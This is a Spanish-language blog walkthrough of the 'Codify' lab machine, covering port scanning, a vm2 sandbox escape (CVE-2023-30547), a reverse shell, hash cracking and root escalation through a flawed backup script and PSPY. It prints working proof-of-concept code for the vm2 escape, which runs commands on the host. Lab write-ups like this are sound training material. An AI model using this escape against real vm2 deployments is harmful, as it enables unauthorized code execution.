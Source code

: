 ![](https://i0.wp.com/marcosjurado.com/wp-content/uploads/2024/04/Codify.png?resize=1024%2C832&ssl=1)

Codify es una máquina que aloja un sitio web para revisar código Node.js en un servidor web. Podemos conseguir un punto de apoyo en el sistema objetivo mediante la explotación de una vulnerabilidad de una librería JavaScript que el sitio utiliza para la revisión de código. Una vez dentro debemos movernos lateralmente hacia otro usuario gracias al hallazgo de un hash ubicado dentro de un fichero en el sistema y realizando su desencriptado. Finalmente, debemos escalar privilegios realizando fuerza bruta sobre un script encontrado en el sistema o, también, usando la herramienta PSPY que nos permitirá capturar la contraseña del usuario root.

### **Enumeración**

#### Nmap

El escaneo de puertos nos arroja la existencia de servicios como **SSH**, **HTTP** y un servicio **HTTP** alojado en el puerto 3000.

![](https://i0.wp.com/marcosjurado.com/wp-content/uploads/2024/04/Selection_001-1.png?resize=782%2C211&ssl=1)

![](https://i0.wp.com/marcosjurado.com/wp-content/uploads/2024/04/Selection_002-1.png?resize=858%2C357&ssl=1)

#### HTTP 3000/TCP

El puerto 3000 nos aporta mucha curiosidad, por lo que nos dirigimos hacia él mediante el navegador. El sitio nos muestra un editor de código para testear código escrito en lenguaje Node.js:

![](https://i0.wp.com/marcosjurado.com/wp-content/uploads/2024/04/Pasted-image-20240404132135.png?resize=1024%2C598&ssl=1)

Si nos dirigimos a la sección «About us» podemos obtener más información sobre el sitio y entender mejor su funcionamiento. Asimismo podemos ver que el editor utiliza una librería de **JavaScript** llamada **vm2**.

![](https://i0.wp.com/marcosjurado.com/wp-content/uploads/2024/04/Pasted-image-20240404133457.png?resize=1024%2C539&ssl=1)

Si clicamos en el enlace, podemos comprobar que se está usando la versión **3.9.16**. Realizando una búsqueda por los motores de búsqueda podemos comprobar que existe una vulnerabilidad para esta versión registrada como **[CVE-2023-30547](https://nvd.nist.gov/vuln/detail/CVE-2023-30547)**:

![](https://i0.wp.com/marcosjurado.com/wp-content/uploads/2024/04/image.png?resize=1024%2C456&ssl=1)

Existe un **[proof of concept](https://github.com/patriksimek/vm2/security/advisories/GHSA-ch3r-j5x3-6q2m)** de esta vulnerabilidad que nos sugiere el uso del siguiente código, el cual nos permite la ejecución de código arbitrario en el sistema objetivo:

```
const {VM} = require("vm2");
const vm = new VM();

const code = `
err = {};
const handler = {
    getPrototypeOf(target) {
        (function stack() {
            new Error().stack;
            stack();
        })();
    }
};
  
const proxiedErr = new Proxy(err, handler);
try {
    throw proxiedErr;
} catch ({constructor: c}) {
    c.constructor('return process')().mainModule.require('child_process').execSync('echo pwned');
}
`

console.log(vm.run(code));
```

Si volvemos al sitio web y probamos el código podemos comprobar que se muestra por pantalla la palabra pwned, por lo tanto, la ejecución de comandos se está realizando correctamente.

![](https://i0.wp.com/marcosjurado.com/wp-content/uploads/2024/04/Pasted-image-20240404133530.png?resize=1024%2C539&ssl=1)

### **Usuario svc**

Ahora es hora de introducir un payload para obtener una reverse shell:

![](https://i0.wp.com/marcosjurado.com/wp-content/uploads/2024/04/Selection_004-1.png?resize=1024%2C795&ssl=1)

Una vez obtenido la shell en el sistema objetivo y estabilizarla, nos encontramos con que somos el usuario svc y que existe un usuario llamado joshua el cual no podemos acceder a su directorio dentro del Home.

![](https://i0.wp.com/marcosjurado.com/wp-content/uploads/2024/04/Selection_005-1.png?resize=829%2C167&ssl=1)

### **Usuario joshua**

Después de realizar una enumeración del sistema nos encontramos que existe un archivo llamado **tickets.db** dentro de la carpeta **/var/www**. Este archivo parece contener el nombre de joshua (el cual no tenemos acceso) y lo que parece ser un hash.

![](https://i0.wp.com/marcosjurado.com/wp-content/uploads/2024/04/Selection_006-1-wpp1712234308114.png?resize=1024%2C278&ssl=1)

Así que nos dirigimos a copiar el hash y tratar de desencriptarlo en nuestro host de ataque mediante el uso de **Hashcat**:

![](https://i0.wp.com/marcosjurado.com/wp-content/uploads/2024/04/Selection_007-1-wpp1712234291287.png?resize=840%2C157&ssl=1)

![](https://i0.wp.com/marcosjurado.com/wp-content/uploads/2024/04/Selection_008-1-wpp1712299328674.png?resize=932%2C942&ssl=1)

Por suerte, logramos desencriptar la contraseña, cambiar de usuario hacia joshua y leer la bandera user.txt.

![](https://i0.wp.com/marcosjurado.com/wp-content/uploads/2024/04/Selection_009-1-wpp1712234194943.png?resize=641%2C149&ssl=1)

### **Escalada de privilegios**

Rápidamente, comprobamos comandos que el usuario puede ejecutar con permisos root y nos entramos con que puede ejecutar un script que aparentemente realiza una copia de seguridad de la base de datos **MYSQL**.

![](https://i0.wp.com/marcosjurado.com/wp-content/uploads/2024/04/Selection_011-1.png?resize=1024%2C100&ssl=1)

Realizando la revisión de código de este script nos encontramos con que en primer lugar se hace una comprobación de la contraseña ubicada en el directorio de root con la contraseña que introduzcamos al ejecutar el script y, a continuación, si la contraseña introducida es válida se procede a realizar la copia de seguridad usando la contraseña root.

![](https://i0.wp.com/marcosjurado.com/wp-content/uploads/2024/04/Selection_012-1.png?resize=1024%2C462&ssl=1)

Si iniciamos el script y probamos cualquier contraseña, nos devuelve un mensaje de fallo de contraseña y se paraliza la ejecución del script. Pero, si usamos el comodín «*» la lógica del script da por buena la contraseña y sigue con su ejecución.

![](https://i0.wp.com/marcosjurado.com/wp-content/uploads/2024/04/Selection_013-1.png?resize=856%2C328&ssl=1)

En este momento tenemos dos opciones:

1. Desarrollar un script para realizar fuerza bruta sobre la contraseña.
2. Utilizar **PSPY** para capturar la contraseña durante la ejecución del script.

Nosotros optamos por utilizar **PSPY**. Así que subimos el binario **PSPY64** en la máquina víctima y lo ejecutamos.

![](https://i0.wp.com/marcosjurado.com/wp-content/uploads/2024/04/Selection_016-1.png?resize=1024%2C822&ssl=1)

A continuación, ejecutamos el script introduciendo el comodín:

![](https://i0.wp.com/marcosjurado.com/wp-content/uploads/2024/04/Selection_017-1.png?resize=804%2C303&ssl=1)

¡Y conseguimos la contraseña!

![](https://i0.wp.com/marcosjurado.com/wp-content/uploads/2024/04/Selection_018-1-wpp1712234137194.png?resize=1199%2C327&ssl=1)

Ahora, tratamos de usar la contraseña filtrada gracias a **PSPY** intentando cambiar hacia el usuario root, y finalmente, ¡conseguimos la bandera root.txt!

![](https://i0.wp.com/marcosjurado.com/wp-content/uploads/2024/04/Selection_019-1-wpp1712234073978.png?resize=657%2C132&ssl=1)

![](https://i0.wp.com/marcosjurado.com/wp-content/uploads/2024/04/Selection_010-1.png?resize=685%2C536&ssl=1)